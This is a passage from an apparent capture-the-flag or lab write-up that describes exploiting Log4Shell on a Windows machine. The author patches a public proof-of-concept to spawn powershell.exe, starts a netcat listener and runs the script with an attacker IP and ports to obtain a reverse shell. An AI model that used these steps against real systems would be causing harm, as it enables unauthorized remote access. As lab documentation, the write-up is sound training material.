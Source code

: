 * I downloaded it, checked its structure, and noticed something I had to modify. In line 26 of the script, it was spawning a _/bin/sh_ binary but changed it to _powershell.exe_ as our target was a _Windows_ machine. Then I set a listener with [_Netcat_](../../networks/tools-and-utilities.md#netcat) to catch the connection and reviewed the parameters needed, setting my IP to make the petition, an arbitrary port where the web server will be deployed, and the port where the listener was running

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp 4444
python3 poc.py --userip 10.10.14.137 --webport 8080 --lport 4444
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the _Log4Shell_ vulnerability and its exploitation you can go [here](../../web-exploitation/broken-access-control/cve-log4shell.md)
{% endhint %}

***

* After executing it I got several errors related to _Java_. I didn't understand what was wrong, so I reviewed the repository again and noticed that for this script to work, I would need a proper [JDK version](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) in the repository. So I did that, with the JDK folder in the same place that the script was, I re-run it this time deploying everything without a problem
